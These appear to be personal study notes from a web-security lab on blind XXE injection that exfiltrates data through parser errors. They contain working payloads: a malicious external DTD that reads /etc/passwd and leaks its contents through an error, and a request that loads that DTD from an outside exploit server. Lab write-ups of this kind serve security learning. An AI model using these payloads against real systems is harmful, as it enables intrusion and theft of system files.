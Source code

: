 - testing by trying to ping my sever 
- was blocked with message in response

> so we use a parameter entity to try to bypass 


![[Pasted image 20240802235018.png]]

- error in XML parser > exfiltrate  data from system 


![[Pasted image 20240802235950.png]]
- using the exploit server, we input the URL it gave us to get the error on the right


> The application outputs the error of the XML parser



Ex filtration of Data:
-------

> Create an entity within an entity ---> you can't use the >>%<< within the enclosed entity --> you have to use `&#x25; 



```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval; 
%exfil;
```


-  trying to access file > but no file exsists > we are just trying to get us to throw the error


![[Pasted image 20240803001519.png]]

- after creating the parameter entity we stored it in our "exploit" server. 

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval; 
%exfil;
```

- then we went back to burp, and resent the request, with the exploit servers URL ( which is the URL from the exploit server in the lab )
	*NOTE: Hey dumb fuck --> it can't be a capital x --> &#x25;*



```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE anything [ <!ENTITY % xxe SYSTEM "https://exploit-0a47009703cd7b7086cfe8bc01a800dd.exploit-server.net/exploit"> %xxe; ]>
<stockCheck><productId>
1
</productId><storeId>1</storeId></stockCheck>
```
